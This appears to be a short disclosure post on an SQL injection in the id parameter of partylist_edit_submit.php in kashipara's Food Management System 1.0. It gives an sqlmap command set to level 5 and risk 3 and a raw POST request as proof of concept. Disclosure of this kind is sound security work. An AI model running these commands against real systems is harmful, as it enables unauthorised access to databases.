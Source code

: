 ###  

### Food Management System SQL Injection Vulnerability

Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: [www.kashipara.com/](http://www.kashipara.com/) 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\partylist_edit_submit.php

![img](https://cdn-images-1.medium.com/max/900/1*Oe2t0b0y9Xf0zJT1xMl0dw.png)










 When SQL statements are executed, variables entered by the user are not filtered and validated sufficiently, resulting in malicious SQL statements that can be injected by maliciously constructed inputs.

SQLmap：

![img](https://cdn-images-1.medium.com/max/900/1*MaGucaS_Y1b1KU4Trq3fag.png)











SQLMAP：
python sqlmap.py -r 3.txt -p id  — level 5 -risk 3
POC：

```shell
POST /chopstic1/partylist_edit_submit.php HTTP/1.1
Host: localhost
Content-Length: 22
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/chopstic1/party_details.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

id=1&action=deleteType
```
